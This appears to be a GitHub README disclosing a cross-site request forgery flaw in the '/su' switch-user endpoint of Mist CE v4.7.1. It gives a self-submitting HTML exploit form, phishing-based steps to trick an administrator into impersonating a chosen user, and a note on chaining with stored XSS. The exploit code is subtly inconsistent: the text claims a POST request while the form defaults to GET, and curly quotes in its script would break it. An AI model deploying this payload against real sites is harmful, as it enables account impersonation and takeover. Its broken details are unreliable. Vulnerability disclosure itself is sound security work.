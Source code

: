 # CVE-2025-MIST-CSRF  
# Cross-Site Request Forgery (CSRF) in Admin's Switch User Operation

## 📜 Description
Mist CE v4.7.1 contains a **Cross-Site Request Forgery (CSRF)** vulnerability in the admin's user-switching operation. The vulnerable endpoint, `/su?email=<user email>`, allows administrators to impersonate users by simply visiting a crafted malicious page. Unlike other endpoints, this one lacks proper protection, which makes it vulnerable to exploitation. An attacker can craft a malicious HTML form that submits a request to the `/su` endpoint, enabling unauthorized actions within the context of an administrator’s session.

## 📌 Affected Version
- **Mist CE v4.7.1** (latest release)
- Other versions may also be affected but have not been tested.

## ⚠️ Disclaimer
This project is intended for **educational and ethical research purposes only**.  
Unauthorized testing on systems without explicit permission is illegal.  
Use responsibly and only on systems you own or have permission to test.

## 💻 Exploit Details

### 🔹 **CSRF Exploitation**
An attacker can exploit this vulnerability by phishing or tricking an administrator into visiting a malicious webpage. The crafted form sends a POST request to the vulnerable `/su?email=<user email>` endpoint, impersonating a specified user and performing actions on their behalf. This could lead to:
- **Unauthorized administrative actions**
- **Sensitive information disclosure**
- **Session hijacking**

### 🔹 **Chaining with Other Vulnerabilities**
This vulnerability can be combined with other weaknesses, such as the **Stored XSS** in the tag field, to further escalate attacks, potentially leading to **account takeover**.

## 🛠️ Steps to Reproduce

### 1️⃣ Craft Malicious HTML Form
Create a malicious HTML form designed to impersonate a specific user (e.g., `v@victim.com`). Here’s an example of the malicious form:
```html
<html>
  <body>
    <form action="http://192.168.1.5/su">
      <input type="hidden" name="email" value="v@victim.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState(‘’, ‘’, ‘/’);
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### 2️⃣ Send Malicious Form to Administrator
- The attacker sends this crafted page to an administrator (e.g., via phishing or other social engineering techniques).
  
### 3️⃣ Administrator Visits Malicious Page
- Upon visiting the page, the form automatically submits, and the administrator is tricked into performing a user switch, impersonating the attacker’s specified user.
  
### 4️⃣ Exploiting the Admin's Session
- The admin unknowingly executes the malicious request, performing actions on behalf of the impersonated user.

## 🎬 Demonstration Video
<a href="https://youtu.be/M3AQ67t3ths" target="_blank">
  <img src="https://img.youtube.com/vi/M3AQ67t3ths/maxresdefault.jpg" width="700" height="380"/>
</a>

## 🧑‍💻 Discovery
- The **CVE-2025-XXXX** vulnerability was discovered by **Alex Perrakis (Stolichnayer)**.

## 🔗 References:
- (CVE ID website)
